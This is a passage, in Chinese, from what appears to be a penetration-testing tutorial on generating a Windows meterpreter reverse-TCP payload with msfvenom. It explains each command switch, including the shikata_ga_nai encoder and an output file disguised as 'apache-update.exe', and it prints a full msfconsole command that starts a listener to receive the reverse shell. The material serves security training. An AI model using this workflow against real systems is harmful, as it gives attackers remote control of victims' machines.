 # 使用 msfvenom 生成有效载荷

现在我们已经熟悉了`msfvenom`实用程序支持的所有有效载荷、编码器、格式和平台，让我们尝试生成一个示例有效载荷，如下面的屏幕截图所示：

![](img/9014fdb6-b1c9-4c40-a5fd-50ed1cd45567.jpg)

以下表格显示了在前述`msfvenom`命令中使用的每个命令开关的详细说明：

| **开关** | **说明** |
| --- | --- |
| `-a x86` | 这里，生成的有效载荷将在 x86 架构上运行 |
| `--platform windows` | 这里，生成的有效载荷针对 Windows 平台 |
| `-p windows/meterpreter/reverse_tcp` | 这里，有效载荷是带有反向 TCP 的 meterpreter |
| `LHOST= 192.168.44.134` | 这里，攻击者系统的 IP 地址是`192.168.44.134` |
| `LPORT= 8080` | 这里，攻击者系统上监听的端口号是`8080` |
| `-e x86/shikata_ga_nai` | 这里，要使用的有效载荷编码器是`shikata_ga_nai` |
| `-f exe` | 这里，有效载荷的输出格式是`exe` |
| `-o /root/Desktop/apache-update.exe` | 这是生成的有效载荷将保存的路径 |

一旦我们生成了一个载荷，我们需要设置一个监听器，一旦在目标系统上执行了载荷，它将接受反向连接。以下命令将在 IP 地址`192.168.44.134`上的端口`8080`上启动一个 meterpreter 监听器：

```
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.44.134; set LPORT 8080; run; exit -y"
```

![](img/61aaa5da-67dc-4c3f-999a-ebce60a4f57f.jpg)
